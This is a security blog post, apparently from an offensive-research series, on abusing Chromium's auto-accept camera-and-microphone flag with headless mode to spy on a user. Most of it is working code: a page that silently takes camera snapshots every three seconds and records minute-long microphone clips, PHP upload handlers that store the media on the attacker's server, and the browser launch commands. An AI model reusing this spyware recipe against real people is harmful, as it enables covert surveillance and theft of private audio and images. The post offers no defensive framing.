





This blog abuses a Chromium command line flag to spy on a user by continuously taking pictures through their camera and recording their microphone audio<!-- end -->.

# Introduction

In the previous blog post, *Capturing Screen Activity Using Chromium Browsers*, I used the `--auto-select-desktop-capture-source=Entire` Chromium flag to automatically capture the entire screen without any user interaction. In this blog post, I'll explore another Chromium flag that allows us to bypass the approval for using the user's camera & microphone.

# Permission Prompt

When a website wants to access a user's camera and microphone they use the [getUserMedia](https://developer.mozilla.org/en-US/docs/Web/API/MediaDevices/getUserMedia) method. Unlike the `getDisplayMedia` method used in the previous blog, `getUserMedia` can be called without a prior user gesture, but the browser will still show a permission prompt that the user must explicitly approve.



# Automatic Camera & Microphone Access

Chromium convinently has the `--auto-accept-camera-and-microphone-capture` flag that will automatically accept the previously shown prompt and allow a website to access the camera and microphone. This flag can be used with the `--headless` flag, allowing it to run invisible to the user.

The page being navigated to should use `getUserMedia` to access the user's media devices. In the script below, I created a function called `captureCameraAndMic`, which calls `getUserMedia` with both `video` and `audio` set to `true` to capture the user's camera and microphone.

```html
<!DOCTYPE html>
<html>
<body>
  <video id="video" autoplay playsinline></video>
  <script>
    function captureCameraAndMic() {
      navigator.mediaDevices.getUserMedia({ video: true, audio: true }).then(stream => {
        document.getElementById('video').srcObject = stream;
      });
    }

    captureCameraAndMic();
  </script>
</body>
</html>
```

To test that the camera and microphone inputs are being captured without any prompt, run the command below. The command omits the `--headless` flag for testing purposes. Since we're not using the `--headless` flag, we **must** close any running instance of the browser before running the command below. So if you use `msedge.exe`, kill all `msedge` processes before running the command.

```
[msedge.exe|chrome.exe] --auto-accept-camera-and-microphone-capture https://example.com/share.html
```

The camera and microphone should be accessible without any prompt.



# Taking Snapshots

With the test succeeding, we can move on to the next step, which is taking camera snapshots every few seconds and saving them on our server. The script below has two functions:

`startCapture` – Initializes the camera stream using `getUserMedia`, displays the video in a `<video>` element, and sets up a timer to take snapshots at regular intervals (in our case every 3 seconds).

`takeAndUploadSnapshot` – Captures a frame from the video, draws it onto a hidden `<canvas>`, converts it to a PNG image blob, and sends it to `upload.php` using a POST request.


```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>
  <video id="video" autoplay playsinline></video>
  <canvas id="canvas" width="1000" height="1000" style="display:none;"></canvas>

  <script>
    const video = document.getElementById('video');
    const canvas = document.getElementById('canvas');
    const context = canvas.getContext('2d');

    function startCapture() {
      navigator.mediaDevices.getUserMedia({ video: true }).then(stream => {
        video.srcObject = stream;
        setInterval(() => takeAndUploadSnapshot(), 3000);
      });
    }

    function takeAndUploadSnapshot() {
        context.drawImage(video, 0, 0, canvas.width, canvas.height);
        const timestamp = Date.now();
        const filename = `imgCapture-${timestamp}.png`;
        const dataUrl = canvas.toDataURL('image/png');

        fetch('upload.php', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({
                image: dataUrl,
                filename: filename
            })
        });

    }

    startCapture();
  </script>
</body>
</html>
```

The script sends the image's Base64 blob and file name to `upload.php`. The PHP script will be responsible for handling the incoming image data and Base64-decoding it and saving it into `/var/www/imgCapture`. Keep in mind that `upload.php` should have permission to write in that folder otherwise you will face an error. This is the same script that was used in the previous blog post.

```php
<?php
$data = json_decode(file_get_contents("php://input"), true);

if (!$data || !isset($data['image']) || !isset($data['filename'])) {
    http_response_code(400);
    exit;
}

// Extract img b64 data and filename
$imageBase64 = $data['image'];
$filename = $data['filename'];

// Remove "data:image/png;base64," from the beginning
$base64String = preg_replace('#^data:image/\w+;base64,#i', '', $imageBase64);
$imageData = base64_decode($base64String);

$uploadDir = '/var/www/imgCapture';
$filePath = $uploadDir . '/' . $filename;

if (file_put_contents($filePath, $imageData)) {
    echo json_encode(['success' => true]);
} else {
    http_response_code(500);
    echo json_encode(['success' => false]);
}
?>
```

Now run the same command as before but with the `--headless` command and watch the camera captures folder gain new images every few seconds.

```
[msedge.exe|chrome.exe] --headless --auto-accept-camera-and-microphone-capture https://example.com/share.html
```





# Record Microphone Audio

Let's take advantage of having microphone access and updating our script to also record and save audio. This will also require us to update the PHP script to save the audio. The previous script is updated with a new function, `startAudioRecording`, which captures microphone input from the media stream and continuously records audio segments. Each segment is set to 60 seconds and is saved as a `.webm` file and sent to `upload-mic.php`.

```html
<!DOCTYPE html>
<html>
<head></head>
<body>
  <video id="video" autoplay playsinline></video>
  <canvas id="canvas" width="1000" height="1000" style="display:none;"></canvas>
  <script>
    const video = document.getElementById('video');
    const canvas = document.getElementById('canvas');
    const context = canvas.getContext('2d');

    function startCapture() {
      navigator.mediaDevices.getUserMedia({ video: true, audio: true }).then(stream => {
        video.srcObject = stream;
        setInterval(takeAndUploadSnapshot, 3000);
        startAudioRecording(stream);
      });
    }

    function takeAndUploadSnapshot() {
      context.drawImage(video, 0, 0, canvas.width, canvas.height);
      const timestamp = Date.now();
      const filename = `imgCapture-${timestamp}.png`;
      const dataUrl = canvas.toDataURL('image/png');
      fetch('/upload.php', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ image: dataUrl, filename: filename })
      });
    }

 function startAudioRecording(stream) {
   const audioStream = new MediaStream(stream.getAudioTracks());
   const options     = { mimeType: 'audio/webm;codecs=opus' };
   if (!MediaRecorder.isTypeSupported(options.mimeType)) {
     delete options.mimeType;             // fall back gracefully
   }

   function startSegment() {
     const recorder = new MediaRecorder(audioStream, options);
     const segmentTimestamp = Date.now();
     const filename = `mic-${segmentTimestamp}.webm`;

     recorder.ondataavailable = e => {
       if (e.data && e.data.size > 0) {
         const formData = new FormData();
         formData.append('audio', e.data, filename);
         fetch('/upload-mic.php', { method: 'POST', body: formData });
       }
     };

     recorder.start();
     setTimeout(() => recorder.stop(), 60000); // Stop the recording after 60 seconds
   }

   startSegment();
   setInterval(startSegment, 60000); // Every 60 seconds, start recording again
 }


    startCapture();
  </script>
</body>
</html>
```

The `upload-mic.php` file grabs the audio file and saves it to `/var/www/imgCapture`.

```php
<?php
$targetDir = '/var/www/imgCapture/';

if (!isset($_FILES['audio']) || $_FILES['audio']['error'] !== UPLOAD_ERR_OK) {
    http_response_code(400);
    exit;
}

$filename = basename($_FILES['audio']['name']);
$targetFile = $targetDir . $filename;

if (file_put_contents($targetFile, file_get_contents($_FILES['audio']['tmp_name'])) !== false) {
    http_response_code(200);
} else {
    http_response_code(500);
}
?>
```

The `/var/www/imgCapture` folder will now have audio and images saved.

